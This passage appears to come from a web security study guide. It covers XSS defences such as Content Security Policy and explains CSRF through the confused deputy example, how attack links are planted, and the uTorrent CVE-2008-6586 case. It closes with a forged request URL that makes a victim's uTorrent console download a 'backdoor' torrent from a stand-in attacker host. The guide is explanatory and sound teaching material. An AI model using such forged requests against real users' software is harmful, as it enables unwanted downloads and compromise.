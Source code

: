     * The downside to this is blocking all scripts on all websites by default is substantial reduction in functionality and responsiveness.
6) Emerging defensive technologies (i.e.  Content Security Policy, Javascript sandbox tools, auto-escaping templates)
    * Find out about Content Security Policy [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) . Sadly it's not very IE-friendly.
## Cross Site Request Forgery (CSRF)
![sneaky](https://media.giphy.com/media/yNOAh1hgmUxWg/giphy.gif)
### What are they?
Cross-site request forgery, also known as one-click attack or session riding and abbreviated as CSRF (sometimes pronounced sea-surf), is a type of malicious exploit of a website where unauthorized commands are transmitted from a user that the web application trusts. Unlike cross-site scripting (XSS), which exploits the trust a user has for a particular site, CSRF exploits the trust that a site has in a user's browser.

### Confused Deputy Attacks
CSRF attacks are an example of a confused deputy attack against the browser, in this case a confused deputy is a computer program that is innocently fooled by some other party into misusing its authority. It is a specific type of privilege escalation.

#### Example
In the original example of a confused deputy, there is a program that provides compilation services to other programs. Normally, the client program specifies the name of the input and output files, and the server is given the same access to those files that the client has.

The compiler service is pay-per-use, and the compiler service stores its billing information in a file (dubbed BILL) that only it has access to.

Now suppose a client calls the service and names its output file BILL. The service opens the output file. Even though the client did not have access to that file, the service does, so the open succeeds, and the server writes the compilation output to the file, overwriting it, and thus destroying the billing information.

### How
Attackers would embed a link that executes a specific action on a target web page/application that if clicked whilst that victim is **logged in** to that website/app would run with the users browsers privileges.The attack carrier link may be placed in a location that the victim is likely to visit while logged into the target site (for example, a discussion forum), or sent in a HTML email body or attachment. It is worth bearing in mind that this attack is blind; the attacker can't see what the target website sends back to the victim in response to the forged requests, unless they exploit a cross-site scripting or other bug at the target website.

### Real World Examples
A real CSRF vulnerability in uTorrent (CVE-2008-6586) exploited the fact that its web console accessible at localhost:8080 allowed mission-critical actions to be executed as a matter of simple GET request:

An attacker could force a .torrent file download
``http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent``

